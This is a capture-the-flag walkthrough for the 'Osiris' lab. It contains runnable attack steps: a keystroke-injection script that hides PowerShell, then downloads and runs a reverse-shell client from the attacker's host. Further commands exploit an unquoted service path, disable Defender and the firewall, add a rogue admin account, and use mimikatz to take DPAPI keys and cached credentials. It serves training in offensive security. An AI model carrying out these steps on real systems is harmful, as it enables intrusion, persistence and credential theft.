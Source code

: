 # Osiris

https://tryhackme.com/room/osiris

Rated "INSANE"

## Flag 1 - Initial Foothold

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. 

## Flag 2 - Privesc to System

Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`.

> Note, I found this a bit finicky. Sometimes it would work, sometimes the update.vbs wouldn't trigger an update of the files (maybe due to file locks etc), or the service wouldnt start. One way to diagnose is to check with `Get-EventLog -LogName "Application" -Newest 3 -EntryType "Error" -Source ".NET Runtime" -ErrorAction SilentlyContinue | Select -ExpandProperty Message` which might print a helpful stacktrace. Otherwise, just terminating and renewing the osiris machine was the best option.

This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.

## Flag 3 - DPAPI

The final flag is in a keepass database under documents for the user chajoh. This DB is set so the user can access it using their logon information (e.g. no password), which means it can't be opened unless we have an interactive session as the user chajoh.

The problem is there is no active session for chajoh to hijack, so we would need their password to login. We can extract an ntlm hash, but its unbreakable. We can force change the password using our admin session, but that would invalidate the keepass encryption meaning we would no longer be able to open the db. The intended solution is to use the ntlm hash of the user plus the domain DPAPI master key (extracted from the domain controller in prior rooms, Ra or Ra2) to generate a new key for keepass so it can be opened properly.

The steps below require mimikatz: grab this [from here](https://github.com/gentilkiwi/mimikatz/releases), extract on the attacker machine, and then use x64/mimikatz.exe in your endeavours.

The ops also require some CQ tools, CQMasterKeyAD.exe and CQDPAPIBlobSearcher.exe. These were very hard to find :(

Steps:

1. Get the dpapi backup key from [Ra](https://tryhackme.com/room/ra) or [Ra 2](https://tryhackme.com/room/ra2): Once getting system/admin on these machines, get and run mimikatz and then `lsadump::backupkeys /system:localhost /export`. Exfiltrate the pfx file. This will then need to have its password changed from `mimikatz` to `cqure`, with `openssl pkcs12 -in DMK.pfx -out temp.pem -nodes` and `openssl pkcs12 -export -out DMK.pfx -in temp.pem`
2. Enable remote desktop access to the Osiris machine: `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0` and add everyone to remote desktop users: `net localgroup "Remote Desktop Users" Everyone /add`. You also need to disable the firewall: `netsh advfirewall set allprofiles state off`
3. Osiris will block mimikatz, so you need to disable defender, There are a few ways to do this, but the simplest for me was to create a new admin user, login and disable it manually through windows security: `net user aquinas P@ssw0rd! /add` and `net localgroup Administrators aquinas /add` (also add to remote desktop users). Once connected over remote desktop, I disabled defender in `windows security > virus & threat protection > virus & threat protection settings > real-time protection`
4. Get mimikatz onto Osiris and replace cherjoh's password in the ntlm cache: `lsadump::cache /user:chajoh /password:NewPassword1234 /Kiwi`
5. You can then connect over remote desktop, using `windcorp.thm\chajoh` and the new password.
6. The final extraction from the database is complicated. Use this to find the file name of the key used to secure the keepass database: 
`.\CQDPAPIBlobSearcher.exe /d C:\Users\chajoh\AppData\Roaming /r /o C:\Users\chajoh\Desktop\`. This should find a guid which corresponds to a file under chajoh\appdata\roaming\microsoft\protect\SID
7. Re-encrypt the key with `.\CQMasterKeyAD.exe /file C:\Users\chajoh\AppData\Roaming\Microsoft\Protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa /pfx .\DMK.pfx /newhash bce4433c7aafc0dbafcc69883f050a15`. Apply the right attributes to make this a system file: `attrib "C:\Users\chajoh\AppData\Roaming\Microsoft\Protect\S-1-5-21-555431066-3599073733-176599750-1125\a773eede-71b6-4d66-b4b8-437e01749caa" +S +H`.

All going well you should be able to open the keepass file now. It seems quite finicky.
